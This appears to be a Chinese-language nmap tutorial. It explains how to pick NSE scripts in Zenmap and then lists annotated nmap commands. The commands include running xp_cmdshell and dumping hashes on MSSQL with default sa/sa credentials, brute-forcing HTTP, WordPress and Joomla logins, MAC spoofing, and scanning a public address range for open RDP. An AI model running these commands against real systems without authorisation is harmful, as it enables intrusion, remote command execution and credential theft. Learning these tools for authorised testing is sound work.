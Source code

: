 至于如何使用nmap中脚本，本文建议，在nmap的图形化界面zenmap 中进行：

1 在zenmap 界面中，依次点击“profile”---"New Profile or Command"  （快捷键：Ctrl + P)

 

2 完成步骤1后，便会弹出了“ Profile Editor" 界面:

3 然后点击” Scripting“ ，将会显示下面的界面：

左侧---脚本的名称，点击勾选该脚本名称前面的小方框，即可使用该脚本；下拉选择其他脚本。

中上方框---脚本的名称、使用情景、使用格式、参考结果；中下框---设置脚本的各种参数。

右侧的大方框------每当点击中下框的某个参数时，此处便会显示那个脚本参数的说明。

4 当选定了XXX脚本后，一定要点击右框下的” Save Changes" .

5 完成上面的步骤后，我们回到zenmap的主界面，

# 0x02Metasploit结合Nmap(lua语言)

nmap -sS -p 3389 -oG- 221.0.90.0/24 | grep open     显示3389端口开放的主机

nmap --script=default 192.168.211.137         搜集各种应用服务的信息

nmap --script=vuln 192.168.211.137

nmap --script=smb-check-vulns.nse --script-args=unsafe=1 192.168.211.137  smb已知几个严重漏洞

nmap -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=sa,ms-sql-xp-cmdshell.cmd="net user" 192.168.137.4  xp_cmdshell 执行命令

nmap -p 1433 --script ms-sql-dump-hashes.nse --script-args mssql.username=sa,mssql.password=sa  192.168.137.4  dumphash值

nmap -p3306 --script=mysql-users.nse --script-args=mysqluser=root 192.168.137.4 列出所有mysql用户

nmap -sT -PN –spoof-mac aa:bb:cc:dd:ee:ff target    MAC地址欺骗

nmap -p80 --script http-brute --script-args http-brute.path=/admin/ <target>暴力破解HTTP身份认证

nmap -p80 --script http-brute --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt <target>    使用自定义的字典

nmap --script http-brute --script-args brute.mode=user <target>用户模式：该模式下，对于userdb中的每个user,会尝试passdb里面的每个password

nmap --script http-brute --script-args brute.mode=pass <target>   密码模式：该模式下，对于passdb中的每个password,会尝试userdb里面的每个user

nmap -p80 --script http-default-accounts <target>   测试默认凭据

nmap -p80 --script http-wordpress-brute --script-args http-wordpressbrute.threads=5 <target>   WordPress审计

nmap -p80 --script http-joomla-brute <target>   Joomla审计

nmap -p80 --script http-waf-detect --script-args=”http-waf-detect.aggro” <target>检测Web应用防火墙

nmap -p80 --script http-unsafe-output-escaping <target>     检测跨站脚本漏洞

nmap -p80 --script http-sql-injection <target>      检测SQL注入
